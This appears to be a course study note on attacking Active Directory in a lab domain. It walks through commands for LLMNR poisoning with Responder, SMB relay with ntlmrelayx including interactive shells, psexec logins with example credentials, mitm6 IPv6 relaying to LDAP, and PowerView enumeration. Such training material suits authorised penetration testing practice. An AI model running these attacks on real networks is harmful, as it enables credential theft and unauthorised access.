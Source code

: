 # Practical Ethical Hacking

## Subnetting

[IP Address Guide site](https://www.ipaddressguide.com/)

[Subnetting sheet](https://drive.google.com/file/d/1ETKH31-E7G-7ntEOlWGZcDZWuukmeHFe/view?usp=sharing)

## Active Directory

### Attack

#### [Five way to attack AD](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

#### LLMNR Poisoning

![](../.gitbook/assets/3%20%281%29%20%281%29.png)

Tool: [Responder](https://github.com/SpiderLabs/Responder) Capture the NTLMv2 hases with Responder on eth0.

```text
responder -I eth0 -rdwv
```

Crack the obtained hash using \#Hashcat or \#john

#### SMB Relay attack

Instead of cracking the hashes gathered from responder, We can repay those hashes to machines and potentially gain access.

Requirements:

* SMB signing must be disabled on the target
* Relayed user credentials must be admin on machine

![](../.gitbook/assets/2-2.png)

Run Responder,

```text
responder -I eth0 -rdwv
```

Tool: [NTLM Relay](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py)

```text
python ntlmrelayx.py -tf targets.txt -smb2support
```

Or

To get Interactive shell

```text
python ntlmrelayx.py -tf targets.txt -smb2support -i
```

Interactive mode will start the Interactive SMB on specific port. As soon as it start Interactive smb set the netcat on that port.

```text
nc 127.0.0.1 1100
```

Checkout more -e, -c etc options of ntlmrelayx

1. Gaining Shell Access

   Prerequisite to get shell, Need smb username/password and user should be local admin

There are multiple ways we have to try, some might not work,

* Use metasploit with windows/smb/psexec
* Use psexec.py _Noicey_

  ```text
  psexec.py marvel.local/fcastel:password1@192.168.0.141
  ```

* psexec\_psh \(Metasploit\)
* smbexec.py
* wmiexec.py
* IPv6 Attack If Ipv6 enabled this attack creates DNS machine for IPv6 addresses. We can use victim machine to login to DC, when victim restart the machine. Once we get victim authenticated we can relay those credentials to LDAP.

#### [mitm6](https://github.com/fox-it/mitm6)

```text
mitm6 -d marvel.local
```

also need to set relay attack

```text
ntlmrelayx.py -6 -t ldaps://192.168.57.140 -wh fakewpad.marvel.local -l lootme
```

Resources: 

* [https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
* [https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

### **Attacking AD Strategies** 

![](../.gitbook/assets/1.png)

### Post Compromise Enumeration

####  ****[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

To run PowerView on Victim machine,

```text
powershell -ep bypass

. .\PowerView.ps1
```

_Nothing will showup but it will load the PowerView_

Common Commands:

* Get-NetDomainController 
* Get-DomainPolicy
* \(Get-DomainPolicy\)."system access"
* Get-NetUser
* Get-NetUser \| select cn
* Get-UserProperty
* Get-UserProperty -Properties pwd
* Get-UserProperty -Properties logoncount
* Get-NetComputer
* Get-NetComputer -FullData
* Get-NetGroupMember -GroupName "Domain Admin"
* Invoke-ShareFinder
* Get-NetGPO
* Get-NetGPO \| select displayname, whenchanged
* [Powerview Tricks](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

#### Bloodhound

